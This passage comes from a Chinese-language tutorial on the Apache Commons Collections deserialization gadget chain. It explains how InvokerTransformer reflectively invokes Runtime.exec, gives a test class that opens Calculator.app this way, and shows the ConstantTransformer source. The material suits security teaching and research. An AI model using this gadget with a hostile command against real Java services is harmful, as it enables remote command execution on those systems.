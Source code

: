 ```java
        } catch (NoSuchMethodException ex) {
            // ...
        }
    }
```

在其中，`InvokerTransformer`方法接收三个参数，分别是要调用的方法名、方法参数类型、以及方法参数值，`transform`方法则能够根据接收的类对象使用反射进行动态调用，这便是造成任意命令执行的根本原因。

```java
package com.javasec.cc;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.InvokerTransformer;

public class SinkTest {

    public static void main(String[] args) throws Exception {
        Transformer t = new InvokerTransformer(
                "exec",
                new Class[]{String.class},
                new Object[]{"open -a Calculator.app"}
        );
        t.transform(Runtime.getRuntime());
    }
}
```

在如上示例代码中，首先使用`InvokerTransformer`创建了一个 Transformer t，指定了要调用的方法名为`"exec"`，方法参数类型为`String.class`，方法参数值为`{"open -a Calculator.app"}`。随后将`Runtime.getRuntime()`作为参数传递给了 t 的`transform()`方法，这里将会调用`Runtime.getRuntime().exec("open -a Calculator.app")`方法 ，这样便能够达到命令的执行。

![](https://prod-files-secure.s3.us-west-2.amazonaws.com/67fdb170-fbbe-4acc-adb2-bfe5483404bd/d52b8a46-eea9-4b07-8859-530e5a4f4cc0/7.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45HZZMZUHI%2F20241006%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20241006T050158Z&X-Amz-Expires=3600&X-Amz-Signature=7f09bab06ac392d6851d8ec741304fa3677da8ec3e887bb37f24aed35dc1650e&X-Amz-SignedHeaders=host&x-id=GetObject)

### ConstantTransformer

`ConstantTransformer`同样是`Transformer`接口的一个实现类，也同样实现了`Serializable`。

```java
package org.apache.commons.collections.functors;

import java.io.Serializable;
import org.apache.commons.collections.Transformer;

public class ConstantTransformer implements Transformer, Serializable {
    private static final long serialVersionUID = 6374440726369055124L;
    private final Object iConstant;

    public ConstantTransformer(Object constantToReturn) {
        super();
        iConstant = constantToReturn;
    }

    public Object transform(Object input) {
        return iConstant;
    }
}
```
